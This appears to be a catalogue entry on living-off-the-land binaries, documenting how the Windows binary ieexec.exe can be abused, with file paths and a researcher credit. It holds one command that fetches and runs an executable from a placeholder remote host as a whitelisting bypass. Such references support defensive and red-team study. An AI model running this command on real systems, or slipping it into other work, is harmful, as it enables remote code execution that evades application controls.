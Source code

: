 ## Ieexec.exe
```

ieexec.exe http://x.x.x.x:8080/bypass.exe
Executes the target XAML Browser Application (XBAP) file.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: []()   
   
* Links:   
  * https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
   
* File path:   
  * c:\windows\system32\ieexec.exe
  * c:\windows\sysWOW64\ieexec.exe
   
* Acknowledgement:   
  * Name: Casey Smith
    * Twitter: [@Subtee](https://twitter.com/@Subtee)
    * Blog: https://subt0x11.blogspot.com/
   
OS:  

